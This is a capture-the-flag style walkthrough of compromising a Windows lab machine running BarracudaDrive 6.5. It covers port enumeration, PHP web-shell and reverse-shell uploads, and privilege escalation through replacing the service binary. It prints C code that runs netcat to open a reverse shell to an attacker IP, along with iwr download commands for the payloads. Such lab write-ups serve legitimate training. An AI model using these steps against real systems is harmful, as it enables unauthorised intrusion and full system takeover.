

# Network Enumeration

```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8000/tcp  open  http-alt
30021/tcp open  unknown
33033/tcp open  unknown
44330/tcp open  unknown
45332/tcp open  unknown
45443/tcp open  unknown
```


# Port enumeration

## Port 5040

Can't get any information from port 5040.


## Port 7680

Also port 7680 didn't get any response, HTTP is not useful.


## Port 8000

In port 8000, that let me to set an administrator account .


Also can get the information from page.

1. App name is `Wizard` ?
2. `BarracudaDrive` provide the service.

## Port 30021

The port 30021 running `FTP` services, can running as anonymous.


Download `README.md` I can know this app running base Ruby.


Cat `config.ru` can get the application name is `Rails`.


## Port 33033

Port 33033 shows a website with team.


Can get 6 "guys" name and email. Also get the title `Sugoid` and `UserproMedjed`. 

Create 3 txt documents, store the `username`, `firstname`, `lastname`, and `email` address. Try to brute force with `Burp Suite`


But no useful creds.

## Port 44330


Port 44330 didn't response.


## Port 45332

Port 45332 is a quiz app.


## Port 45443

Port 45443 is also a quiz app.


But it will not return anything while you choose the right answer.


# Web Enumeration

## Port 8000


set the username and password `aaron:aaron123`


Then administrator account set successful. Check about, the version of application is `BarracudaDrive 6.5`.

Use the `Web-File-Server` can directly access the `C:\`


Then can find there are 2 disks on `/fs`. Then check the help document, we can add `c` to link to access the `C:\`


But can't access `D:\`.

Check the `C:\xampp\htdocs\`, the index.html is quiz App, also the `phpinfo.php` in here. Check on port 45443 or 45332 if `phpinfo` can access.


Then upload a `simple-backdoor.php` into this folder. 


Access this `simple-backdoor.php` file, it's work.


Upload `reverse_shell_windows.php` into this folder, change the `$tmpdir`.


Then visit this `php` file. Get reverse shell.


# PE

## Information Collection

```powershell
PS history file: C:\Users\Jerren\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


Find autorun applications.


Search `barracudadrive v6.5 privilege escalation` in google, there is a way to PE with `barracudadrive`.


Try it all, refer->[barracudadrive v6.5 privilege escalation](https://www.exploit-db.com/exploits/48789)

## `barracudadrive v6.5` privilege escalation

### Check permission


### Check file application permission


###  Check if `sc` can doing operation with `bd`



### Add reverse shell code.

```c
#include <windows.h>
#include <winbase.h>

int main(void){
     system("C:\\users\\jerren\\nc.exe 192.168.45.229 5040 -e cmd.exe");
     WinExec("C:\\bd\\bd.service.exe",0);
    return 0;
    } 

```

#### Compile Code

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/MedJed]
└─$ i686-w64-mingw32-gcc reverse.c -l ws2_32 -o bd.exe

```


Transfer to Target machine, replace the `bd.exe`

```powershell
PS C:\Users\Jerren> iwr -uri http://192.168.45.229/nc/nc.exe -o nc.exe
PS C:\Users\Jerren> iwr -uri http://192.168.45.229/bd.exe -o bd.exe
PS C:\bd> mv bd.exe bd.exe.bak
PS C:\bd> cp c:\users\Jerren\bd.exe .
PS C:\bd> dir
    Directory: C:\bd
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                                                                   
-a----         8/19/2023   2:55 AM          99868 bd.exe                                                               
-a----         4/26/2013   5:55 PM        1661648 bd.exe.bak     


PS C:\bd> shutdown /r      
```

Then waiting for machine restart. Get administrator shell.


